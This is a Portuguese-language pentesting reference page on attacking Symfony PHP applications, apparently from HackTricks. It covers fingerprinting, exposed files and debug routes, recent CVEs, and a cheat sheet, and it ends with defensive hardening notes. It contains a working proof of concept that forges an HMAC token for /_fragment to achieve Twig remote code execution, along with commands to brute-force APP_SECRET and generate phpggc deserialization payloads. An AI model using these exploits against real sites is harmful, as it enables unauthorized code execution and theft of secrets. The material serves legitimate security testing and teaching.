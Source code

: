 # Symfony

{{#include ../../banners/hacktricks-training.md}}

Symfony é um dos frameworks PHP mais amplamente utilizados e aparece regularmente em avaliações de alvos empresariais, de e-commerce e CMS (Drupal, Shopware, Ibexa, OroCRM … todos incorporam componentes Symfony). Esta página reúne dicas ofensivas, configurações incorretas comuns e vulnerabilidades recentes que você deve ter em sua lista de verificação ao descobrir uma aplicação Symfony.

> Nota histórica: Uma grande parte do ecossistema ainda utiliza a versão **5.4 LTS** (EOL **Novembro 2025**). Sempre verifique a versão menor exata, pois muitos avisos de segurança de 2023-2025 foram corrigidos apenas em lançamentos de patch (por exemplo, 5.4.46 → 5.4.50).

---

## Recon & Enumeração

### Finger-printing
* Cabeçalhos de resposta HTTP: `X-Powered-By: Symfony`, `X-Debug-Token`, `X-Debug-Token-Link` ou cookies que começam com `sf_redirect`, `sf_session`, `MOCKSESSID`.
* Vazamentos de código-fonte (`composer.json`, `composer.lock`, `/vendor/…`) frequentemente revelam a versão exata:
```bash
curl -s https://target/vendor/composer/installed.json | jq '.[] | select(.name|test("symfony/")) | .name,.version'
```
* Rotas públicas que existem apenas no Symfony:
* `/_profiler`   (Symfony **Profiler** & barra de ferramentas de depuração)
* `/_wdt/<token>` (“Web Debug Toolbar”)
* `/_error/{code}.{_format}` (páginas de erro formatadas)
* `/app_dev.php`, `/config.php`, `/config_dev.php` (controladores front-end de desenvolvimento pré-4.0)
* Wappalyzer, BuiltWith ou listas de palavras ffuf/feroxbuster: `symfony.txt` → procure por `/_fragment`, `/_profiler`, `.env`, `.htaccess`.

### Arquivos e endpoints interessantes
| Caminho | Por que é importante |
|------|----------------|
| `/.env`, `/.env.local`, `/.env.prod` | Frequentemente mal implantados → vazam `APP_SECRET`, credenciais DB, SMTP, chaves AWS |
| `/.git`, `.svn`, `.hg` | Divulgação de código-fonte → credenciais + lógica de negócios |
| `/var/log/*.log`, `/log/dev.log` | Configuração incorreta do web-root expõe rastreamentos de pilha |
| `/_profiler` | Histórico completo de requisições, configuração, contêiner de serviços, **APP_SECRET** (≤ 3.4) |
| `/_fragment` | Ponto de entrada usado por ESI/HInclude. Abuso possível uma vez que você conheça `APP_SECRET` |
| `/vendor/phpunit/phpunit/phpunit` | RCE do PHPUnit se acessível (CVE-2017-9841) |
| `/index.php/_error/{code}` | Finger-print & às vezes vaza rastros de exceção |

---

## Vulnerabilidades de alto impacto (2023-2025)

### 1. Divulgação de APP_SECRET ➜ RCE via `/_fragment` (também conhecido como “secret-fragment”)
* **CVE-2019-18889** originalmente, mas *ainda* aparece em alvos modernos quando a depuração é deixada habilitada ou `.env` é exposto.
* Uma vez que você conheça o `APP_SECRET` de 32 caracteres, crie um token HMAC e abuse do controlador interno `render()` para executar Twig arbitrário:
```python
# PoC – requer o segredo
import hmac, hashlib, requests, urllib.parse as u
secret = bytes.fromhex('deadbeef…')
payload = "{{['id']|filter('system')}}"   # RCE em Twig
query = {
'template': '@app/404.html.twig',
'filter': 'raw',
'_format': 'html',
'_locale': 'en',
'globals[cmd]': 'id'
}
qs = u.urlencode(query, doseq=True)
token = hmac.new(secret, qs.encode(), hashlib.sha256).hexdigest()
r = requests.get(f"https://target/_fragment?{qs}&_token={token}")
print(r.text)
```
* Excelente artigo e script de exploração: blog Ambionics (linkado nas Referências).

### 2. Sequestro de Processo do Windows – CVE-2024-51736
* O componente `Process` pesquisou o diretório de trabalho atual **antes** do `PATH` no Windows. Um atacante capaz de fazer upload de `tar.exe`, `cmd.exe`, etc. em um web-root gravável e acionar `Process` (por exemplo, extração de arquivos, geração de PDF) ganha execução de comando.
* Corrigido em 5.4.50, 6.4.14, 7.1.7.

### 3. Fixação de Sessão – CVE-2023-46733
* O guardião de autenticação reutilizou um ID de sessão existente após o login. Se um atacante definir o cookie **antes** da autenticação da vítima, ele sequestra a conta após o login.

### 4. XSS no sandbox do Twig – CVE-2023-46734
* Em aplicações que expõem templates controlados pelo usuário (CMS admin, construtor de e-mail), o filtro `nl2br` poderia ser abusado para contornar o sandbox e injetar JS.

### 5. Cadeias de gadgets Symfony 1 (ainda encontradas em aplicativos legados)
* `phpggc symfony/1 system id` produz um payload Phar que aciona RCE quando um unserialize() acontece em classes como `sfNamespacedParameterHolder`. Verifique endpoints de upload de arquivos e wrappers `phar://`.

{{#ref}}
../../pentesting-web/deserialization/php-deserialization-+-autoload-classes.md
{{#endref}}

---

## Cheat-Sheet de Exploração

### Calcular token HMAC para `/_fragment`
```bash
python - <<'PY'
import sys, hmac, hashlib, urllib.parse as u
secret = bytes.fromhex(sys.argv[1])
qs     = u.quote_plus(sys.argv[2], safe='=&')
print(hmac.new(secret, qs.encode(), hashlib.sha256).hexdigest())
PY deadbeef… "template=@App/evil&filter=raw&_format=html"
```
### Força bruta de `APP_SECRET` fraco
```bash
cewl -d3 https://target -w words.txt
symfony-secret-bruteforce.py -w words.txt -c abcdef1234567890 https://target
```
### RCE via exposed Symfony Console
Se `bin/console` for acessível através de `php-fpm` ou upload direto de CLI:
```bash
php bin/console about        # confirm it works
php bin/console cache:clear --no-warmup
```
Use gadgets de desserialização dentro do diretório de cache ou escreva um template Twig malicioso que será executado na próxima solicitação.

---

## Notas defensivas
1. **Nunca implemente debug** (`APP_ENV=dev`, `APP_DEBUG=1`) em produção; bloqueie `/app_dev.php`, `/_profiler`, `/_wdt` na configuração do servidor web.
2. Armazene segredos em variáveis de ambiente ou `vault/secrets.local.php`, *nunca* em arquivos acessíveis através do document-root.
3. Imponha a gestão de patches – inscreva-se em avisos de segurança do Symfony e mantenha pelo menos o nível de patch LTS.
4. Se você estiver rodando no Windows, atualize imediatamente para mitigar CVE-2024-51736 ou adicione uma defesa em profundidade `open_basedir`/`disable_functions`.

---

### Ferramentas ofensivas úteis
* **ambionics/symfony-exploits** – RCE de fragmento secreto, descoberta de rotas de depuração.
* **phpggc** – Cadeias de gadgets prontas para Symfony 1 e 2.
* **sf-encoder** – pequeno auxiliar para calcular HMAC de `_fragment` (implementação em Go).

## Referências
* [Ambionics – Symfony “secret-fragment” Remote Code Execution](https://www.ambionics.io/blog/symfony-secret-fragment)
* [Symfony Security Advisory – CVE-2024-51736: Command Execution Hijack on Windows Process Component](https://symfony.com/blog/cve-2024-51736-command-execution-hijack-on-windows-with-process-class)
{{#include ../../banners/hacktricks-training.md}}
